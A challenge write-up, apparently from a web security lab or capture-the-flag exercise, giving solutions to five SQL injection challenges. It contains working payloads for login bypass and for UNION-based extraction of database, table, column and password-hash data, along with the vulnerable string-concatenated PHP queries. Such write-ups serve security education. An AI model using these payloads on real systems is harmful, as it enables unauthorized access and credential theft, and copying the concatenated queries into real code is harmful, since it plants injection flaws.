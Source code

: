 # WEB - SQLi Challenges

# Challenge 1 - Try to login
	+ main file used = login1.php
	+ solution: anything' OR 1=1 -- //
	+ note: the query was of the form:
	$q = "SELECT * FROM users where username='".$username."' AND password = '".md5($pass)."'" ;


# Challenge 2 - Try logging in... again
	+ main file used = login2.php
	+ solution = blah') OR 1=1 -- //
	+ note: the query was of the form:
	$q = "SELECT * FROM users where (username='".$username."') AND (password = '".md5($pass)."')" ;

# Challenge 3 - Get the database name
	+ hint: Try to figure out the DB software being used. Find out how to get database details with that software
	+ main file used = searchproducts.php
	+ solution = ' union select null, null, database(), null, null -- //
	+ approach = keep trying 
		+ ' union select 1 -- //
		+ ' union select 1, 2 -- //
		+ and so on until you get an error
		+ you will then figure out the number of columns
		+ by the comment style, you should've figured out the DB software being used - viz MySQL in this case 
		+ google how to obtain DB name on MySQL through SQLi, you will come across the database() function.

# Challenge 4 - Find the table names
	+ main file used = searchproducts.php
	+ solution = ' union select null, table_name, null, null, null from information_schema.columns where table_schema=database() -- //
	+ same approach as challenge 3

# Challenge 5 - Find the password of the 5th person in md5.
	+ main file used = searchproducts.php
	+ solution = ' union select null, id, username, password, fname from users -- //
	+ approach
		+ you would've obtained the table names from the previous challenge 
		+ ' UNION SELECT column_name, null, null, null, null FROM information_schema.columns -- // will help you get the column names
		+ then execute the query stated in 'solution' and extract the password of the person corresponding to id = 5

